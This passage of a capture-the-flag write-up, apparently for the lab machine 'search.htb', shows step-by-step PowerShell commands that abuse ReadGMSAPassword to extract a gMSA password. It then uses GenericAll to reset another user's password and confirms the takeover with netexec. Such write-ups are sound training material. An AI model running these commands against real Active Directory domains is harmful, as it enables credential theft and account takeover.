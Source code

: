 
### Privilege escalation
---

It is time to abuse our <mark>ReadGMSAPassword</mark> privilege to get the password of the <mark>BIR-ADFS-GMSA</mark> user and take control over <mark>tristan.davies</mark> with <mark>GenericAll</mark>.

Retrieving the <mark>msDS-ManagedPassword</mark> attribute.
{% highlight powershell %}
PS C:\Users\Sierra.Frye\Documents> $gmsa = Get-ADServiceAccount -Identity BIR-ADFS-GMSA -Properties msDS-ManagedPassword
{% endhighlight %}

Decoding the password blob using <mark>ConvertFrom-ADManagedPasswordBlob</mark> cmdlet to view the password information.
{% highlight powershell %}
PS C:\Users\Sierra.Frye\Documents> $mp = $gmsa.'msDS-ManagedPassword'
PS C:\Users\Sierra.Frye\Documents> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑᳡扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾେ͍롤ᒛ�䬁ማ譿녓鏶᪺骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 1850.08:52:20.7537335
UnchangedPasswordInterval : 1850.08:47:20.7537335
{% endhighlight %}

Now, we need to decode the password blob again and store the secure current password in a variable.
{% highlight powershell %}
PS C:\Users\Sierra.Frye\Documents> $secpassword = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
{% endhighlight %}

Create the <mark>PSCredential</mark> object and invoke a command to reset the password of the <mark>tristan.davies</mark> user.
{% highlight powershell %}
PS C:\Users\Sierra.Frye\Documents> $pscred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $secpassword

PS C:\Users\Sierra.Frye\Documents> Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "KotyZaPloty!0" -Force)} -Credential $pscred
{% endhighlight %}

Let's confirm that we have access.
{% highlight shell %}
┌──(iwo㉿kali)-[~]
└─$ netexec smb 10.10.11.129 -u tristan.davies -p 'KotyZaPloty!0'
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\tristan.davies:KotyZaPloty!0 (Pwn3d!)
{% endhighlight %}

